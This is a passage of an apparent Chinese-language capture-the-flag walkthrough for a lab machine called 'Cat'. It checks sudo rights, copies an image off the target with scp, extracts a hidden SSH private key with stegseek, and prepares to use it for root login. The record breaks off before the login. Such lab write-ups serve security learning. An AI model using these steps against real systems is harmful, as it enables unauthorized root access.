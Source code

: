 登录后，检查`catcatcat`用户的`sudo`权限。

```shell
catcatcat@Cat:~$ sudo -l
Matching Defaults entries for catcatcat on Cat:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User catcatcat may run the following commands on Cat:
    (ALL) NOPASSWD: /usr/bin/imgcat
```

结果表明，`catcatcat`用户可以免密码以root权限执行`/usr/bin/imgcat`命令。这通常是一个提权的突破口，但这里是一个兔子洞（最近Sublarge很喜欢出这种兔子洞啊）。

在`catcatcat`用户的主目录下，发现一个名为`cat.jpg`的图片文件。

```shell
catcatcat@Cat:~$ ls -al
...
-rw-r--r-- 1 catcatcat catcatcat 4460980 Aug  2 09:50 cat.jpg
-rw-r--r-- 1 catcatcat catcatcat      44 Aug  2 09:18 user.txt
...
```

我们将此图片文件通过`scp`传回Kali进行分析。

```shell
catcatcat@Cat:~$ scp cat.jpg kali@192.168.205.128:/mnt/hgfs/gx/x/tmp
...
cat.jpg                                       100% 4356KB  92.5MB/s   00:00
```

使用隐写术分析工具`stegseek`对图片进行分析，尝试提取隐藏信息。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ stegseek cat.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "id_rsa".
[i] Extracting to "cat.jpg.out".
```

`stegseek`成功在无密码的情况下提取出了一个名为`id_rsa`的文件，这通常是SSH私钥。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ head -n 1 cat.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
```

确认是私钥文件后，我们用它来尝试以root身份登录目标主机。

首先，赋予私钥正确的权限。

```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ mv cat.jpg.out /tmp/id_rsa
┌──(kali㉿kali)-[/tmp]
└─$ chmod 600 id_rsa
```
